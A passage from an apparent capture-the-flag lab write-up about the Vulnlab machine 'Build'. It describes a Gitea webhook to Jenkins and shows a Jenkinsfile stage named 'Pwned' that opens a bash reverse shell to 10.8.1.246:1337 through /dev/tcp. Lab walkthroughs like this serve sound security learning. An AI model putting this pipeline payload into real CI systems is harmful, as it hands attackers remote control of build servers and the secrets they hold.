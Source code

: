 ![alt text](../assets/vulnlab/machines/build/img/image-8.png)

There's a webhook that triggers on push events and makes a POST request to `http://172.18.0.3:8080/gitea-webhook/post`. The `172.18.0.0/16` is a private address range also used by [Docker networks](https://docs.storagemadeeasy.com/appliance/docker_networking), so it's possible that the Jenkins instance is running on a Docker container with IP address `172.18.0.3`. We'll confirm this later after we get a reverse shell.

Now we can edit the `Jenkinsfile` directly from the Gitea web interface at <http://build.vl:3000/buildadm/dev/_edit/main/Jenkinsfile> and [add a reverse shell](https://cloud.hacktricks.xyz/pentesting-ci-cd/jenkins-security/jenkins-rce-creating-modifying-pipeline) to it:

```
pipeline {
    agent any

    stages {
        stage('Pwned') {
            steps {
                sh '''
                    bash -c 'bash -i >& /dev/tcp/10.8.1.246/1337 0>&1'
                '''
            }
        }
    }
}
```
